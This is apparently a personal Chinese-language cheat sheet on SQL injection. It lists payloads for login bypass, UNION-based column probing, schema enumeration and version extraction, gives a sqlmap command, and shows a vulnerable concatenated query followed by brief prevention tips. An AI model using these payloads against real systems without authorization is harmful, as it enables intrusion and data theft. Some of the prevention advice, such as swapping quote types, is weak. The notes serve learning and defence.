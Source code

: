 # cheetsheet

## SQL Injection 隱碼攻擊

Introduction 
發生於應用程式之資料庫層的安全漏洞
是輸入的字串之中夾帶 SQL 指令
若程式未過濾，夾帶進去的指令會被資料庫 Server 認為是正常的 SQL 指令執行

1. 最簡單語法 
' or 1=1 # (# 代表後方皆省略)

2. UNION 可以將兩個 SELECT 結合在一起查詢
'UNION SELECT 1,2,3,4# (用這個可以慢慢找出欄位數)
'UNION SELECT ORDER BY 2# (與上方同理)

3. 系統資訊結構描述
一般 SQL 資料庫中都會有一個表格是 "系統資訊結構描述" ，表格名為 Information Schema，亦可透過 UNION 方式檢視 Table Name、Column Name
'UNION SELECT  TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS#

4. 查出資料庫版本、資料庫名稱
透過版本直接上網查是不是有已知漏洞可以打
'UNION SELECT @@version,database()#

5. SQL 檢測工具 - SQLMAP (未用過)
此工具用來檢視是否有 SQL Injection，程式將 SQL Injection 攻擊語法集結而成，透過此可對網站進行滲透
COMMAND:
sqlmap -u [URL] --dbs

strSQL = "SELECT * FROM users WHERE(name = '"+userName+"') and (pw = '"+passWord+"');"
userName = "1' OR '1'='1"
passWord = "1' OR '1'='1"
strSQL = "SELECT * FROM users WHERE(name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
==> strSQL = "SELECT * FROM users;" (因為後面的結果都是 True，所以就直接會變這樣)


預防方式建議:
1. 使用正規化的方式驗證過濾輸入值，可以將 SQL 指令過濾掉，或將單引號變換為雙引號
2. 在不需要使用到更新、插入資料時，資料庫以 view 的方式處理供使用者查詢資料
3. 將伺服器與資料庫部署在不同的機器上

參考:
https://www.slideshare.net/hugolu/sql-injection-61608454

